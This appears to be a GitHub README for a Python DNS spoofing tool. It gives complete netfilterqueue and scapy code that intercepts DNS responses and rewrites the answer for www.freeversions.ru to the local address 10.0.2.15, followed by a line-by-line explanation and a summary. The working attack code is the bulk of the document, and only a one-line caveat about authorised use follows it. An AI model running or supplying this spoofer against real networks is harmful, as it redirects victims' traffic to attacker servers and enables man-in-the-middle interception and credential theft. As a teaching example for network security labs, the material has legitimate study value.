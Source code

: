 # DNSspoofer
python

import netfilterqueue
import scapy.all as scapy

    netfilterqueue: This module interfaces with the NetfilterQueue in Linux, allowing the interception and modification of network packets.
    scapy.all: This imports all necessary functions from the Scapy library for network packet manipulation.

Function: process_packet(packet)

python

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "www.freeversions.ru" in qname.decode():
            print("[+] spoffing target")
            answer = scapy.DNSRR(rrname=qname, rdata="10.0.2.15")

            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(bytes(scapy_packet))

    packet.accept()

    process_packet(packet): This function processes each packet intercepted by NetfilterQueue.
    scapy.IP(packet.get_payload()): Converts the packet payload to a Scapy IP packet.
    scapy_packet.haslayer(scapy.DNSRR): Checks if the packet has a DNS Resource Record layer, indicating a DNS response.
    qname = scapy_packet[scapy.DNSQR].qname: Extracts the queried domain name from the DNS Question Record layer.
    if "www.freeversions.ru" in qname.decode(): Checks if the queried domain name matches "www.freeversions.ru".
    If it matches, a spoofed DNS response is created:
        scapy.DNSRR(rrname=qname, rdata="10.0.2.15"): Creates a DNS Resource Record with the queried name and the fake IP address "10.0.2.15".
        scapy_packet[scapy.DNS].an = answer: Sets the DNS answer section to the spoofed answer.
        scapy_packet[scapy.DNS].ancount = 1: Sets the answer count to 1.
    The packet's IP and UDP headers' length and checksum fields are deleted to force Scapy to recalculate them:
        del scapy_packet[scapy.IP].len
        del scapy_packet[scapy.IP].chksum
        del scapy_packet[scapy.UDP].chksum
        del scapy_packet[scapy.UDP].len
    packet.set_payload(bytes(scapy_packet)): Sets the modified packet payload.
    packet.accept(): Accepts the packet, sending it to its destination.

Setting Up the Queue

python

queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()

    queue = netfilterqueue.NetfilterQueue(): Creates a new NetfilterQueue instance.
    queue.bind(0, process_packet): Binds the queue to queue number 0 and sets the process_packet function as the callback for packet processing.
    queue.run(): Starts the queue, continuously processing packets as they arrive.

Summary

This script is a DNS spoofing tool that intercepts DNS requests using a NetfilterQueue in Linux. It looks for DNS queries for "www.freeversions.ru" and responds with a fake IP address ("10.0.2.15"), effectively redirecting the target to a different server. Here's a brief flow of the script:

    Intercept Packets: Using NetfilterQueue, intercept network packets.
    Process Packets: Check if the packet is a DNS response.
    Check Domain: If the DNS query is for "www.freeversions.ru", spoof the DNS response with a fake IP.
    Modify Packet: Adjust the packet fields and set the payload.
    Send Packet: Accept and forward the modified packet.

This technique is commonly used for malicious purposes like redirecting traffic or creating a man-in-the-middle attack, so it should only be used in controlled and authorized environments.
